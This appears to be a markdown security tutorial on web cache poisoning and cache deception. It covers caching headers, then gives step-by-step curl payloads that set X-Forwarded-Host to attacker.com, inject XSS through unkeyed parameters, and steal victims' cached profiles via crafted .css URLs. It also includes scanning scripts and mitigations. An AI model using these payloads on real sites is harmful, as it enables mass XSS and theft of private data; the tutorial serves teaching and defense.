




# 🗃️ Web Caches — Deep Dive: Cache Poisoning & Cache Deception

> **Core Concept:** Caches make the web fast by serving the same content to multiple users. When poisoned, they make the web dangerous by serving malicious content to many users from a single injection.

---

## 📚 Table of Contents

1. [How Web Caching Works](#how-web-caching-works)
2. [Cache Hierarchy](#cache-hierarchy)
3. [Cache Keys Explained](#cache-keys-explained)
4. [HTTP Caching Headers Deep Dive](#http-caching-headers-deep-dive)
5. [Cache-Busting Techniques](#cache-busting-techniques)
6. [Web Cache Poisoning](#web-cache-poisoning)
7. [Web Cache Deception](#web-cache-deception)
8. [Tools & Automation](#tools--automation)
9. [Defense & Mitigation](#defense--mitigation)

---

## 🧠 How Web Caching Works

Caching stores responses so future identical requests can be served without hitting the origin server.



**Why this matters for security:**
- One poisoned cache entry is served to **all subsequent users** until it expires
- Cache misconfigurations can serve **private data** to unauthenticated users
- Cache behavior at the CDN level often differs from what the developer expects

---

## 🏗️ Cache Hierarchy



| Cache Layer | Location | Scope | TTL Typical |
|-------------|----------|-------|-------------|
| Browser | User's device | Per-user | Minutes to days |
| CDN Edge | ISP edge nodes | Global (all users) | Seconds to hours |
| Reverse Proxy | Datacenter | All users | Seconds to minutes |
| App Cache | App memory/Redis | All users | Configurable |
| DB Query Cache | Database | All users | Query lifetime |

**Key insight:** CDN and reverse proxy caches are **shared** — poisoning them affects everyone.

---

## 🔑 Cache Keys Explained

A **cache key** is the identifier used to look up stored responses. It answers: "Is this the same request?"

### Default Cache Key

```
Cache Key = Method + URL (path + query string)

GET /products?category=shoes&page=1  →  Key: "GET /products?category=shoes&page=1"
GET /products?category=shoes&page=1  →  HIT (same key)
GET /products?category=boots&page=1  →  MISS (different key)
```

### What Can Be Excluded from the Cache Key

Not all request components affect the cache key. Components **not in the key** are called **unkeyed inputs**:

```
Request Headers (usually unkeyed):
- X-Forwarded-Host
- X-Forwarded-For
- User-Agent (usually)
- Accept-Encoding (usually)
- Cookie (usually — important!)

Query Parameters (some may be unkeyed):
- UTM parameters: utm_source, utm_medium, utm_campaign
- Analytics params: fbclid, gclid
- Pagination state

Body (usually unkeyed for GET/HEAD)
```

**If an unkeyed input is reflected in the response → Cache Poisoning is possible.**

### Identifying Cache Behavior

```bash
# Check for cache indicators in response headers:
curl -s -I https://target.com/homepage | grep -i "cache\|age\|x-cache\|cf-cache"

# Common cache-status headers:
X-Cache: HIT            # Nginx/Varnish
X-Cache: MISS
CF-Cache-Status: HIT    # Cloudflare
CF-Cache-Status: MISS
X-Drupal-Cache: HIT     # Drupal
Age: 143                # Seconds since cached
Surrogate-Control: max-age=300  # CDN-specific directive
```

---

## 📋 HTTP Caching Headers Deep Dive

### Cache-Control

The primary cache directive header. Can appear in both **requests** and **responses**.

#### Response Directives (Server → Cache)

```http
Cache-Control: public, max-age=3600
```

| Directive | Meaning | Security Note |
|-----------|---------|---------------|
| `public` | Any cache may store | Unsafe for personalized content |
| `private` | Only browser cache, not CDN | Must use for user-specific data |
| `no-cache` | Must revalidate before serving | Doesn't prevent caching, just forces check |
| `no-store` | **Never cache this response** | Use for sensitive data (passwords, tokens) |
| `max-age=N` | Cache for N seconds | Shared + browser |
| `s-maxage=N` | CDN cache for N seconds (overrides max-age) | CDN-only |
| `must-revalidate` | Respect max-age strictly | No serving stale content |
| `stale-while-revalidate=N` | Serve stale for N seconds while refreshing | Race condition window |
| `stale-if-error=N` | Serve stale if origin errors | Potential stale sensitive data |
| `immutable` | Content won't change during max-age | Aggressive caching |

#### Request Directives (Client → Cache)

```http
Cache-Control: no-cache       # Force revalidation
Cache-Control: no-store       # Don't store response
Cache-Control: max-age=0      # Treat cached copy as stale
Cache-Control: only-if-cached # Return cached or 504
```

**Bug: Developers confuse `no-cache` with `no-store`:**
```http
# Developer intent: "Don't cache my users' private data"
# Wrong:
Cache-Control: no-cache       # Still caches! Just revalidates. WRONG for sensitive data.

# Correct:
Cache-Control: no-store, private  # Never stored in shared cache
```

### Vary Header

Tells caches that the response varies based on a request header — adds that header to the cache key:

```http
# Response:
Vary: Accept-Language

# This means:
GET /page  +  Accept-Language: en    →  Different cache entry from...
GET /page  +  Accept-Language: fr    →  ...this
```

**Security abuse:** If `Vary: Accept-Language` is set but the server ignores it, different users get each other's cached responses.

```bash
# Test Vary header impact:
curl -s https://target.com/ -H "Accept-Language: en" | grep "language\|locale"
curl -s https://target.com/ -H "Accept-Language: fr" | grep "language\|locale"
# If same response → Vary header is misleading CDN
```

### ETag and Conditional Requests

```
Server response:
ETag: "d8a521f3c1ab2"
Last-Modified: Wed, 15 Jan 2025 10:00:00 GMT

Client conditional request (revalidation):
If-None-Match: "d8a521f3c1ab2"
If-Modified-Since: Wed, 15 Jan 2025 10:00:00 GMT

Server response if unchanged:
HTTP/1.1 304 Not Modified
(no body — client uses cached copy)
```

**Security issue:** ETags can fingerprint users or leak file modification times.

### Age Header

```http
Age: 143
```
Indicates the response has been in the shared cache for 143 seconds. If `max-age=300`, this response is still "fresh" (300-143=157 seconds remaining).

**Attacker uses Age to verify cache hit:**
```bash
# First request: Age: 0 or absent → fresh from origin
curl -s -I https://target.com/ | grep Age

# Second request: Age: 5 → served from cache
curl -s -I https://target.com/ | grep Age
```

### Expires (Legacy)

```http
Expires: Thu, 01 Jan 2026 00:00:00 GMT
```

Older absolute-time mechanism. Deprecated in favor of `Cache-Control: max-age`. If both present, `Cache-Control` wins. Manipulating the `Date` header can affect Expires interpretation.

---

## 🔧 Cache-Busting Techniques

Used by developers to force cache refresh; abused by attackers to bypass cache:

```bash
# Append cache-buster to URL:
https://target.com/page?cb=12345
https://target.com/page?v=20250101
https://target.com/page?_=1706000000

# Request with no-cache (respects Cache-Control):
curl -H "Cache-Control: no-cache" https://target.com/page

# Pragma (ancient HTTP/1.0):
curl -H "Pragma: no-cache" https://target.com/page

# CDN purge (if you have access):
# Cloudflare: purge by URL via API
curl -X POST "https://api.cloudflare.com/client/v4/zones/ZONE_ID/purge_cache" \
  -H "Authorization: Bearer TOKEN" \
  -d '{"files":["https://target.com/page"]}'
```

---

## 💥 Web Cache Poisoning

### Concept

```
Normal flow:    Request → Cache Key lookup → Serve cached (or origin) response
Poisoning:      Attacker sends:  Request + Malicious Header
                Cache stores:    Response reflecting malicious header
                Victims receive: Poisoned response when requesting same URL
```



### Step-by-Step Methodology

#### Step 1: Identify Cacheable Responses

```bash
# Look for cache indicators:
curl -s -I "https://target.com/page" | grep -iE "cache|age|etag|x-cache|cf-"

# Make two requests — if second has Age > 0 or X-Cache: HIT → cacheable
curl -s -I "https://target.com/page" | grep -i age
# Age: 0 → miss
sleep 2
curl -s -I "https://target.com/page" | grep -i age
# Age: 2 → HIT (being cached)

# Static resources are always cached:
# /static/js/app.js, /css/main.css, /images/logo.png

# Cacheable pages (may vary by CDN config):
# /, /about, /products, /blog/post-title
```

#### Step 2: Find Unkeyed Inputs

```bash
# Test each header — does it get reflected in response?
for header in \
  "X-Forwarded-Host: canary.example.com" \
  "X-Forwarded-Scheme: nothttps" \
  "X-Forwarded-Proto: http" \
  "X-Original-URL: /canary" \
  "X-Rewrite-URL: /canary" \
  "X-Host: canary.example.com" \
  "X-Forwarded-Server: canary.example.com" \
  "X-HTTP-Host-Override: canary.example.com" \
  "Forwarded: host=canary.example.com"; do
    response=$(curl -s "https://target.com/" -H "$header")
    if echo "$response" | grep -q "canary"; then
        echo "[REFLECTED] -H \"$header\""
    fi
done
```

**Burp Suite Param Miner extension automates this:**
```
1. Right-click on request in Proxy → Extensions → Param Miner → Guess headers
2. Param Miner sends requests with many headers + unique canary values
3. Reports which headers are reflected in responses
4. Cross-checks cache status to confirm unkeyed (response still returns HIT)
```

#### Step 3: Common Unkeyed Headers & Their Exploitation

**X-Forwarded-Host → XSS:**

```bash
# App uses X-Forwarded-Host to build absolute URLs in response:
# <link rel="canonical" href="https://HOST/page">
# <script src="https://HOST/static/app.js">

# Poison with attacker-controlled host:
curl "https://target.com/?cb=123" \
  -H "X-Forwarded-Host: attacker.com" \
  -H "Cache-Control: no-cache"

# Victim receives:
# <script src="https://attacker.com/static/app.js">
# → Loads attacker's script!
```

**X-Forwarded-Scheme → Open Redirect:**

```bash
# App redirects HTTP to HTTPS using X-Forwarded-Scheme:
curl "https://target.com/" \
  -H "X-Forwarded-Scheme: http"
# Response: Location: http://target.com/
# Cache stores this redirect → victims get bounced to HTTP
```

**Fat GET (body in GET request):**

```bash
# Some caches key on URL only, not body
# App might process GET body parameters:
curl -X GET "https://target.com/page" \
  -d "utm_source=<script>alert(1)</script>"
# If app reflects utm_source and cache doesn't key on body → cache poisoning
```

#### Step 4: Inject Malicious Value & Force Cache

```bash
# XSS via cache poisoning
curl "https://target.com/?cb=$(date +%s)" \
  -H "X-Forwarded-Host: attacker.com\" onmouseover=\"alert(document.domain)" \
  -H "Cache-Control: no-cache" \
  -v 2>&1 | grep -A5 "HTTP/1"

# The cb parameter busts the cache (unique per request)
# Remove it to target the actual cached URL:
curl "https://target.com/" \
  -H "X-Forwarded-Host: attacker.com" 
# If no cache-busting → might poison the real cached page
```

#### Step 5: Verify Poisoned Response

```bash
# Make request WITHOUT the malicious header
curl -s "https://target.com/" | grep "attacker.com"
# If "attacker.com" appears → successfully poisoned!

# Check from different IP/browser to confirm it's cache-wide:
curl -s "https://target.com/" --proxy socks5://127.0.0.1:9050 | grep "attacker"
# Using Tor to simulate different user
```

### Parameter Cloaking

CDNs often strip or ignore certain query parameters. Apps may still process them.

```bash
# CDN cache key: /page (strips utm_* params)
# App processes: /page?utm_content=<payload>

# Poison with UTM parameter:
curl "https://target.com/page?utm_content=<script>alert(1)</script>"
# CDN key = /page (caches for everyone!)
# App reflected utm_content in response
# Everyone gets XSS
```

### Unkeyed Query String

```bash
# Some CDNs ignore entire query string in cache key
# Inject via any query parameter:
curl "https://target.com/page?anything=<payload>"

# Test with Param Miner → "Guess query parameters" option
# Scans which parameters affect response without affecting cache key
```

### Real PortSwigger Research Cases

**Case 1: XSS via X-Forwarded-Host (PortSwigger Labs)**
```bash
# App generates:
# <script src="https://HOSTNAME/resources/js/tracking.js">
# X-Forwarded-Host replaces HOSTNAME

# Exploit:
curl "https://target.web-security-academy.net/?x=1" \
  -H "X-Forwarded-Host: attacker-server.net"
# Caches: <script src="https://attacker-server.net/resources/js/tracking.js">
```

**Case 2: Redirect via X-Forwarded-Scheme**
```
GET / HTTP/1.1
Host: target.com
X-Forwarded-Scheme: http

HTTP/1.1 301 Moved Permanently
Location: https://target.com/    ← Origin generates with X-Forwarded-Host value
X-Cache: miss

→ Combine with X-Forwarded-Host to redirect to attacker site
```

---

## 🕵️ Web Cache Deception

**Different from poisoning.** Goal: trick cache into storing **victim's private data**.

### Concept

```
Normal: /profile → returns private page → Cache-Control: private → NOT cached

Deception:
1. Attacker sends victim link: https://target.com/profile/evil.css
2. Victim visits URL (authenticated)
3. App: path /profile/evil.css → app only looks at /profile → returns victim's profile data
4. CDN: path ends in .css → assume static! → CACHE IT
5. Attacker visits: https://target.com/profile/evil.css → gets victim's cached profile
```

### Step-by-Step Exploitation

```bash
# Step 1: Find pages with sensitive data
# /dashboard, /account, /profile, /settings, /billing

# Step 2: Test path confusion
# Does the app ignore the suffix?
curl -s "https://target.com/profile/test.css" \
  -H "Cookie: session=YOUR_SESSION" | head -30
# If returns your profile → app ignores suffix!

# Step 3: Check if CDN caches .css files (almost always yes)
curl -s -I "https://target.com/style.css" | grep -i "cache\|age"
# CF-Cache-Status: HIT → yes, cached

# Step 4: Lure victim to crafted URL
# Send victim: https://target.com/profile/evil.css
# (via phishing, stored XSS, email, etc.)

# Step 5: Victim browses with their session → CDN caches their profile
# Step 6: Attacker fetches same URL (no session):
curl -s "https://target.com/profile/evil.css" | grep -i "email\|name\|address"
# If returns victim's data → DECEPTION SUCCESSFUL
```

### Path Extensions That Trigger CDN Caching

```
.css, .js, .jpg, .jpeg, .png, .gif, .ico, .svg, .woff, .woff2
.pdf, .zip, .mp4, .mp3, .txt
.html (sometimes)
```

### App Routing That Enables Deception

```python
# Vulnerable: app ignores path suffix
@app.route('/profile/<path:any>', methods=['GET'])  # Matches /profile/evil.css
@app.route('/profile', methods=['GET'])
def profile(any=None):
    return render_profile(request.user)  # Returns same profile regardless!

# Also vulnerable: trailing slash behavior
# /profile/     → redirects to /profile (CDN may cache the redirect!)
# /profile/..   → path traversal issues
```

### Cache Deception Attack Flow



---

## 🛠️ Tools & Automation

### Param Miner (Burp Extension)

```
Install: Extensions → BApp Store → Param Miner

Usage:
1. Right-click on interesting request → Extensions → Param Miner
2. Options:
   - "Guess headers" → Tests ~25,000 header names for reflection
   - "Guess query params" → Tests parameters
   - "Guess cookies" → Tests cookie names
3. Results appear in Extensions → Param Miner output

Key settings:
- Check "Add 'fcbz' cachebuster" → Prevents poisoning production
- "Only report unique params" → Cleaner output
```

### Manual Testing Script

```bash
#!/bin/bash
# web-cache-poison-test.sh

TARGET=$1
CANARY="cache-test-$(date +%s)"

echo "[*] Testing cache poisoning on: $TARGET"
echo "[*] Canary: $CANARY"

HEADERS=(
    "X-Forwarded-Host: $CANARY.evil.com"
    "X-Forwarded-Scheme: $CANARY"
    "X-Forwarded-For: $CANARY"
    "X-Original-URL: /$CANARY"
    "X-Rewrite-URL: /$CANARY"
    "X-Host: $CANARY.evil.com"
    "X-Custom-IP-Authorization: $CANARY"
)

for header in "${HEADERS[@]}"; do
    response=$(curl -s "$TARGET?cachebust=$(date +%s)" -H "$header" 2>/dev/null)
    if echo "$response" | grep -q "$CANARY"; then
        echo "[REFLECTED] $header"
        echo "  → Potential cache poisoning vector!"
    fi
done
```

### Python: Cache Deception Tester

```python
#!/usr/bin/env python3
"""Cache deception test - test if sensitive pages get cached with static extensions"""

import requests
import time

TARGET = "https://target.com"
ENDPOINTS = ["/profile", "/account", "/dashboard", "/settings", "/orders"]
EXTENSIONS = [".css", ".js", ".png", ".jpg", ".html", ".ico"]

session = requests.Session()
session.cookies.set("session", "YOUR_SESSION_COOKIE")

for endpoint in ENDPOINTS:
    for ext in EXTENSIONS:
        path = f"{endpoint}/test{ext}"
        
        # First request (as victim)
        r1 = session.get(f"{TARGET}{path}")
        
        if r1.status_code == 200:
            cache_status = r1.headers.get('CF-Cache-Status', 
                          r1.headers.get('X-Cache', 'UNKNOWN'))
            
            print(f"[{r1.status_code}] {cache_status:10} {path}")
            
            # Second request (no session - as attacker)
            time.sleep(1)
            r2 = requests.get(f"{TARGET}{path}")
            
            if r2.status_code == 200 and len(r2.content) > 500:
                print(f"  ⚠️  POTENTIAL DECEPTION: {path}")
                print(f"      Unauthenticated response: {len(r2.content)} bytes")
```

---

## 🛡️ Defense & Mitigation

### Cache Poisoning Prevention

```nginx
# Nginx: Remove dangerous headers before caching
proxy_set_header X-Forwarded-Host "";
proxy_set_header X-Original-URL "";
proxy_set_header X-Rewrite-URL "";

# Only include necessary headers in Vary:
add_header Vary "Accept-Encoding";  # Not: Accept, Cookie, User-Agent
```

```python
# Application: Don't use unkeyed headers to build responses
# BAD:
host = request.headers.get('X-Forwarded-Host', request.host)
script_src = f"https://{host}/static/app.js"  # Poisonable!

# GOOD:
CANONICAL_HOST = os.environ['CANONICAL_HOST']  # Set once at config time
script_src = f"https://{CANONICAL_HOST}/static/app.js"
```

### Cache Deception Prevention

```python
# Python/Django: Explicitly set Cache-Control for all authenticated views
from django.views.decorators.cache import never_cache

@never_cache
@login_required
def profile(request):
    return render(request, 'profile.html', {'user': request.user})

# Or middleware:
response['Cache-Control'] = 'no-store, private'
response['Pragma'] = 'no-cache'
```

```nginx
# Nginx: Don't cache responses with Set-Cookie or authenticated content
proxy_cache_bypass $http_cookie;
proxy_no_cache $http_cookie;

# Or: only cache specific content types
location ~* \.(js|css|png|jpg|jpeg|gif|ico|woff|woff2)$ {
    proxy_cache_valid 200 1d;
}
location / {
    proxy_no_cache 1;  # Don't cache dynamic pages
}
```

### Security Checklist

| Check | Pass Criteria |
|-------|---------------|
| Sensitive pages have `Cache-Control: no-store, private` | Must be server-set |
| CDN does not cache URLs matching `/user/*`, `/account/*`, `/api/*` | Configure CDN rules |
| `X-Forwarded-Host` not used to build response URLs | Use canonical hostname |
| `Vary` header only includes headers that are keyed | Audit Vary header |
| Static file caching rules don't apply to app routes with static extensions | CDN config |
| CSP prevents loading scripts from unexpected domains | `Content-Security-Policy` header |

---

## 📚 References

- [PortSwigger Research: Practical Web Cache Poisoning](https://portswigger.net/research/practical-web-cache-poisoning)
- [PortSwigger Research: Web Cache Entanglement](https://portswigger.net/research/web-cache-entanglement)
- [Web Cache Deception Attack (OMG, 2017)](https://omergil.blogspot.com/2017/02/web-cache-deception-attack.html)
- [Param Miner GitHub](https://github.com/PortSwigger/param-miner)
- [OWASP: Testing for Browser Cache Weaknesses](https://owasp.org/www-project-web-security-testing-guide/v42/4-Web_Application_Security_Testing/04-Authentication_Testing/06-Testing_for_Browser_Cache_Weaknesses)
